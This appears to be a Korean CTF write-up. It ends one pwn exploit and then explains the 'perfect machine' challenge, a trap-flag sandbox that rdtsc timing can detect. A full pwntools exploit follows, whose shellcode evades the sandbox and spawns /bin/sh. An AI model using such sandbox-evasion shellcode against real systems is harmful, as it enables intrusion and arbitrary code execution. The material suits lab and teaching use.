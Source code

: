 ```python
sleep(1)
p.send(payload)
sleep(1)
payload=bug(0x700,pop_rdi)
p.send(payload)

p.interactive()
```

#### perfect machine

해당 문제의 컨셉은 다음과 같습니다.

seccomp 필터를 사용하지 않고, 트랩 게이트와 시그널 핸들러만을 이용해서 구현한 샌드박스를 탐지하는 컨셉의 문제입니다. 유저가 입력한 쉘코드는 샌드박스에서 테스트하며 랜덤한 숫자만큼 쉘코드를 돌려서 코드가 안전한지 검사합니다. 만약 검사를 통과하면 샌드박스 외부에서 코드를 실행시킵니다. 이 때 검사하는 요소는 아래와 같습니다. 
* 시스템 콜 검사 (`open`, `read`, `write`)
* 모든 범용 레지스터에 `proc`, `flag.txt` 문자열 사용 불가능
* 샌드박스 외부로 점프 불가능
* eflag의 trap flag 비활성화 불가능
* 샌드박스 내부에서 시스템콜은 실행되지 않고 패스됨
* 민감 데이터는 샌드박스 실행시 PROT_NONE 상태로 매핑됨

코드 테스트는 무작위 횟수만큼 테스트 되는데, 이는 단순한 숫자 카운팅으로 샌드박스 내부에서 쉘코드가 실행중인지 판단하여 조건부로 코드를 실행하는 것을 방지하기 위함입니다.

취약점은 다음과 같습니다.
- 샌드박스는 기본적으로 `SIGTRAP` 시그널을 처리해서 동작하기 때문에 샌드박스 내부 코드 명령어 실행에는 굉장한 오버헤드가 존재합니. 따라서 `rdtsc` 또는 `rdtscp` 명령어를 사용해서 코드가 샌드박스 내부에 있는지 알 수 있습니다. 그 외에도 가능한 방법은 libc 메모리에 접근하여 랜덤 시드값을 알아내는 방법등이 있을 수 있습니다.

exploit.py
- 코드에서 `cmp rax, 0x8500` 부분은 시스템 별로 차이가 있을 수 있음


```py
from pwn import *
context.arch='amd64'

p = remote('localhost', 15252)
shellcode = f'''
rdtsc
mov rdi, rax
mov rsi, rdx
nop
rdtsc
sub rax, rdi
cmp rax, 0x8500
jl gogo
jmp exit
gogo:
    xor eax, eax;
    push rax;
    mov rdi, 0x68732f6e69622f;
    push rdi;
    mov rdi, rsp;
    xor esi, esi;
    xor edx, edx;
    mov al, 0x3b;
    syscall;
exit:
    ret;
'''
payload = asm(shellcode)
p.sendlineafter(b"> ", payload)
p.interactive()
```
